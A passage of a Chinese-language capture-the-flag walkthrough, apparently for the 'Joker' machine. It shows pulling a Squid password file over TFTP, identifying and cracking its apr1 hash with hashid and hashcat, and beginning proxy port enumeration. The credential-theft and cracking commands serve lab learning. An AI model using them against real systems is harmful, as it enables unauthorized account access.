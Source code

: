 通过 TFTP 服务下载密码文件
``` shell
tftp > get /etc/squid/passwords
```
![截屏2024-03-23 23.59.09](/assets/media/Joker/%E6%88%AA%E5%B1%8F2024-03-23%2023.59.09.png)

成功拿到用户名和对应密码哈希

![截屏2024-03-23 23.59.57](/assets/media/Joker/%E6%88%AA%E5%B1%8F2024-03-23%2023.59.57-1209692.png)

### 哈希破解

识别哈希值为 MD5 APR1 类型

``` shell
hashid '$apr1$zyzBxQYW$pL360IoLQ5Yum5SLTph.l0'
```
![截屏2024-03-24 00.01.04](/assets/media/Joker/%E6%88%AA%E5%B1%8F2024-03-24%2000.01.04.png)

其类型在 hashcat 中对应值为1600

![截屏2024-03-24 00.02.41](/assets/media/Joker/%E6%88%AA%E5%B1%8F2024-03-24%2000.02.41.png)

使用 hashcat 爆破哈希，成功拿到明文为`ihateseafood`

``` shell
hashcat -a 0 -m 1600 passwords /usr/share/wordlists/rockyou.txt --username
```
![截屏2024-03-24 01.47.29](/assets/media/Joker/%E6%88%AA%E5%B1%8F2024-03-24%2001.47.29.png)
## 0x02 上线[werkzeug]
### Squid代理
目前虽然已知 Squid 代理的认证凭据，但代理后的主机开放哪些端口仍处于未知状态，利用命令`curl`编写脚本可知哪些端口开放了 Web 服务